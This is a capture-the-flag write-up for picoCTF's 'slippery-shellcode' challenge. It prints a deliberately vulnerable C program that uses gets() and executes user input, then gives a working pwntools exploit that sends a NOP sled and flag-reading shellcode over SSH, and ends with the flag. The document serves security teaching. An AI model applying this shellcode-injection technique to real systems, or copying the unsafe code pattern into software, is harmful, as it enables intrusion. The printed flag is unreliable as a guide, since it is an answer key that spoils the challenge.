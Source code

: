 # slippery-shellcode
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```
If we make the first 256 instructions [`nop`](https://en.wikipedia.org/wiki/NOP_slide), we can garentee that the shellcode will be run completely. Therefor with some minor tweeks to 
[handy-shellcode](../0-handy-shellcode), it can be done.
```python
from os import environ
from pwn import *

EXEC='/problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015/vuln'
FLAG='/problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015/flag.txt'

s = ssh(host='2019shell1.picoctf.com',
        user=environ["PICOUSER"],
        password=environ["PICOPSWD"])

sh = s.process(EXEC)

shellcode = asm(shellcraft.nop()*256+shellcraft.i386.cat(FLAG))

sh.sendlineafter('Enter your shellcode:', shellcode)

x = sh.recvrepeat()

print(x.decode(errors='ignore'))

s.close()
```
flag: `picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}`

